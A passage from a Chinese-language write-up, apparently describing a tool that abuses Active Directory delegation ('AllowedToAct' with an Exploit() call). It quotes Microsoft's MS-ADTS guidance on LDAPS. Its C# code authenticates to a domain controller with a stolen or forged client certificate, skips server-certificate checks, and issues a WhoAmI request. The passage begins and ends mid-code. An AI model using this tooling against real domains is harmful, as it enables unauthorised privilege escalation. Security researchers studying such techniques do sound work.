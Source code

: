 ```c#
        }
    }

    AllowedToAct allowedToAct = new AllowedToAct(Domain, Server, PortNumber, CertPath, CertPassword, MachineAccount, MachinePassword, TargetMachineDN);
    allowedToAct.Exploit();
}
```

### Establish a Connection to LDAPS

根据 Microsoft 有关 AD 技术规范（MS-ADTS）的官方文档 “*[5.1.1.2 Using SSL/TLS](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/8e73932f-70cf-46d6-88b1-8d9f86235e81)*”，Active Directory 允许通过两种方式建立到 DC 的受 SSL/TLS 保护的连接：

&gt; *Active Directory permits two means of establishing an SSL/TLS-protected connection to a DC. The first is by connecting to a DC on a protected LDAPS port (TCP ports 636 and 3269 in AD DS, and a configuration-specific port in AD LDS). The second is by connecting to a DC on a regular LDAP port (TCP ports 389 or 3268 in AD DS, and a configuration-specific port in AD LDS), and later sending an LDAP\_SERVER\_START\_TLS\_OID extended operation \[RFC2830\]. In both cases, the DC will request (but not require) the client's certificate as part of the SSL/TLS handshake \[RFC2246\]. If the client presents a valid certificate to the DC at that time, it can be used by the DC to authenticate (bind) the connection as the credentials represented by the certificate.*

- 第一种是通过受保护的 LDAPS 端口（AD DS 中的 TCP 端口 636 和 3269，以及 AD LDS 中的配置特定端口）连接到 DC。
- 第二种是通过常规 LDAP 端口（AD DS 中的 TCP 端口 389 或 3268，以及 AD LDS 中的特定配置端口）连接到 DC，然后发送 LDAP\_SERVER\_START\_TLS\_OID 扩展操作。

在这两种情况下，DC 都会请求（但不要求）客户端的证书作为 SSL/TLS 握手的一部分。如果客户端当时向 DC 出示有效证书，DC 可以使用它来验证（绑定）连接，作为证书所代表的凭据。

Windows .NET API 提供的 `System.DirectoryServices.Protocols.LdapConnection` 类支持通过 LDAP 会话选项 `SecureSocketLayer` 来启用连接上的安全套接字层（SSL），并可以通过 `ClientCertificates` 属性获取一个或多个要发送用于身份验证的客户端证书。

我们通过 `System.Security.Cryptography.X509Certificates.X509Certificate2` 类来导入 X.509 证书存储，并将导入的证书添加到 `LdapConnection` 的 `ClientCertificates` 属性作为连接 LDAPS 的凭据，最终与 LDAPS 建立受 SSL/TLS 保护的连接，如下所示。

```c#
public bool VerifyServerCertificateCallback(LdapConnection connection, X509Certificate certificate)
{
    return true;
}
public void ActiveDirectoryConnection(string Server, int PortNumber)
{
    LdapDirectoryIdentifier identifier = new LdapDirectoryIdentifier(Server, PortNumber);
    LdapConnection connection = new LdapConnection(identifier);

    if (!String.IsNullOrEmpty(this.CertPath) &amp;&amp; !String.IsNullOrEmpty(this.CertPassword))
    {
        X509Certificate2 certificate = new X509Certificate2(this.CertPath, this.CertPassword, X509KeyStorageFlags.Exportable);
        connection.ClientCertificates.Add(certificate);
        connection.SessionOptions.VerifyServerCertificate = VerifyServerCertificateCallback;
        connection.SessionOptions.SecureSocketLayer = true;
    }

    if (connection != null)
    {
        this.connection = connection;
        Console.WriteLine("[*] Established connection to Active Directory.");
        // # 1.3.6.1.4.1.4203.1.11.3 = OID for LDAP_SERVER_WHO_AM_I_OID (see MS-ADTS 3.1.1.3.4.2 LDAP Extended Operations)
        // https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/faf0b8c6-8c59-439f-ac62-dc4c078ed715
        ExtendedRequest extendedRequest = new ExtendedRequest("1.3.6.1.4.1.4203.1.11.3");
        try
        {
```